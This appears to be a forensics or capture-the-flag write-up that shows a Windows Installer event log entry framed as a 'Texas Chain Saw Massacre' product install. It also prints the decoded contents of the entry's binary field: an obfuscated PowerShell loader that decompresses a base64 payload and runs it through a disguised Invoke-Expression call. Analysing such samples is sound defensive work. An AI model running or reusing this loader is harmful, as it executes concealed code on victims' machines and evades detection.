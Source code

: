 ```
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="MsiInstaller" /> 
  <EventID Qualifiers="0">1337</EventID> 
  <Version>0</Version> 
  <Level>4</Level> 
  <Task>0</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x80000000000000</Keywords> 
  <TimeCreated SystemTime="2023-10-10T16:02:47.088023300Z" /> 
  <EventRecordID>1785</EventRecordID> 
  <Correlation /> 
  <Execution ProcessID="9488" ThreadID="0" /> 
  <Channel>Application</Channel> 
  <Computer>DESKTOP-JU2PNRI</Computer> 
  <Security /> 
  </System>
- <EventData>
  <Data>Windows Installer installed the product. Product Name: The Texas Chain Saw Massacre (1974). Product Version: 8.0.382.5. Product Language: English. Director: Tobe Hooper. Installation success or error status: 0.</Data> 
  <Binary>2828272E2028205...</Binary> 
  </EventData>
  </Event>
```

I've truncated the `<Binary>` XML element because it was rather large, but I threw it into CyberChef and got the following:

```
(('. ( ZT6ENv:CoMSpEc[4,24,'+'25]-joinhx6hx6)( a6T ZT6( Set-variaBle hx6OfShx6 hx6hx6)a6T+ ( [StriNg'+'] [rEGeX]::mAtcheS( a6T ))421]RAhC[,hx6fKIhx6eCALPeR-  93]RAhC[,)89]RAhC[+84]RAhC[+98]RAhC[( EcalPeRC-  63]RAhC[,hx6kwlhx6EcalPeRC-  )hx6)bhx6+hx60Yb0Yhx6+hx6niOj-]52,hx6+hx642,hx6+'+'hx64[cehx6+hx6phx6+hx6SMoC:Vnhx6+hx6ekwl ( hx6+hx6. fKI ) (DnEOTDAhx6+hx6ehx6+hx6r.)} ) hx6+'+'hx6iicsA:hx6+hx6:]GnidOcNhx6+hx6e.hx6+hx6Thx6+hx6xethx6+hx6.hx6+hx6METsys[hx6+hx6 ,_kwhx6+h'+'x6l (REDhx6+hx6AeRmaertS.o'+'Ihx6+hx6 thx6+hx6Chx6'+'+hx6ejbO-Wh'+'x6+hx6En { HCaERoFhx6+hx6fKI) sSERpM'+'oCehx6+hx'+'6dhx6+hx6::hx6+hx6]'+'edOMhx6+hx6'+'nOisSErPMochx6+hx6.NoISSerhx6+hx6pMOc.oi[, ) b'+'0Yhx6+hx6==wDyD4p+S'+'s/l/hx6+hx6i+5GtatJKyfNjOhx6+'+'hx63hx6+hx63hx6+hx64Vhx6+hx6vj6wRyRXe1xy1pB0hx6+hx6AXVLMgOwYhx6+hx6//hx6+hx6Womhx6+hx6z'+'zUhx6+hx6tBhx6+hx6sx/ie0rVZ7hx6+hx6xcLiowWMGEVjk7JMfxVmuszhx6+hx6OT3XkKu9TvOsrhx6+hx6bbhx6+hx6cbhx6+hx6GyZ6c/gYhx6+hx6Npilhx6+hx6BK7x5hx6+hx6Plchx6+hx68qUyOhBYhx6+hx6VecjNLW42YjM8SwtAhx6+hx6aR8Ihx6+hx6Ohx6+hx6whx6+hx6mhx6+hx66hx6+hx6UwWNmWzCw'+'hx6+hx6VrShx6+hx6r7Ihx6+hx6T2hx6+hx6k6Mj1Muhx6+hx6Khx6+hx6T'+'/oRhx6+hx6O5BKK8R3NhDhx6+hx6om2Ahx6+hx6GYphx6+hx6yahx6+hx6TaNg8DAneNoeSjhx6+h'+'x6ugkTBFTcCPaSH0QjpFywhx6+'+'hx6aQyhx'+'6+hx6HtPUG'+'hx'+'6+hx6DL0BK3hx6+h'+'x6lClrHAvhx6+h'+'x64GOpVKhx6+hx6UNhx6+hx6mGzIDeraEvlpc'+'kC9EGhx6+hx6gIaf96jSmShx6'+'+hx6Mhhx6+hx6hhx6+hx6RfI72hx6+hx6oHzUkDsZoT5hx6+hx6nhx6+hx6c7MD8W31Xq'+'Khx6+hx6d4dbthx6+hx6bth1RdSigEaEhx6+hx6JNERMLUxV'+'hx6+hx6ME4PJtUhx6+hx6tSIJUZfZhx6+hx6EEhx6+hx6Ahx6+hx6JsTdDZNbhx6+hx60Y(gniRTS4hx6+hx66esh'+'x6+hx6aBmoRF::]tRevnOhx6+hx6C[]MAertsYrOmeM.Oi.mETSYs[ (MaErhx6+hx6thx6+hx6sEtALfeD.NOhx6+hx6IsS'+'erPmo'+'c.OI.mehx6+hx6TsYShx6'+'+hx6 hx6+hx6 tCejbO-WEhx6+hx6n ( hx6(((no'+'IsseRpX'+'e-ekovni a6T,hx6.hx6,hx6RightToLEFthx6 ) RYcforEach{ZT6_ })+a6T ZT6( sV hx6oFshx6 hx6 hx6)a6T ) ')  -cREpLACE ([cHAr]90+[cHAr]84+[cHAr]54),[cHAr]36 -rEPlAce'a6T',[cHAr]34  -rEPlAce  'RYc',[cHAr]124 -cREpLACE  ([cHAr]104+[cHAr]120+[cHAr]54),[cHAr]39) |. ( $vERboSEpreFeRenCe.tOStrING()[1,3]+'x'-JOin'')
```
